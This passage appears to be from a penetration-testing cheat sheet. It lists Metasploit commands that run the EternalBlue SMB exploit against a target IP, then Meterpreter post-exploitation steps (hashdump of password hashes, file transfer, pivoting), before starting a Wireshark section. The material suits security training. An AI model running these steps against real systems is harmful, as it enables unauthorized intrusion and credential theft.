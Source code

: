 
## 2. **Metasploit Framework**

### **Description**  
- **Primary Purpose**: Exploitation, auxiliary scanning, and post-exploitation.  
- **Why It’s Essential**: Provides a vast library of exploits, payloads, and automation for testing vulnerabilities.

### **Fundamental & Advanced Commands**
1. **Start Metasploit**  
   ```bash
   msfconsole
   ```
2. **Search for Exploit Modules**  
   ```text
   msf6 > search exploit_name
   ```
3. **Use an Exploit**  
   ```text
   msf6 > use exploit/windows/smb/ms17_010_eternalblue
   ```
4. **Set Basic Options**  
   ```text
   msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.1
   msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.100
   ```
5. **Run the Exploit**  
   ```text
   msf6 exploit(ms17_010_eternalblue) > exploit
   ```

#### **Advanced / Post-Exploitation & Navigation**
- **Sessions**:
  - List active sessions: `sessions -l`
  - Interact with session #1: `sessions -i 1`
- **Meterpreter Basics**:
  - `sysinfo` → show target system info  
  - `getuid` → current user context  
  - `hashdump` → dump password hashes (if permissions allow)  
  - `upload` / `download` → transfer files  
- **Pivoting**:
  - Use `route add` inside Metasploit to pivot through a compromised host to reach internal networks.  
- **Background/Exit**:
  - `background` → put the active session in the background  
  - `back` → go back one level in the module hierarchy  

---

## 3. **Wireshark / Tshark**

### **Description**  
- **Primary Purpose**: Network protocol analysis and packet capturing.  
- **Why It’s Essential**: Visualize, filter, and understand data flows. Critical for diagnosing suspicious network activity or analyzing traffic patterns.
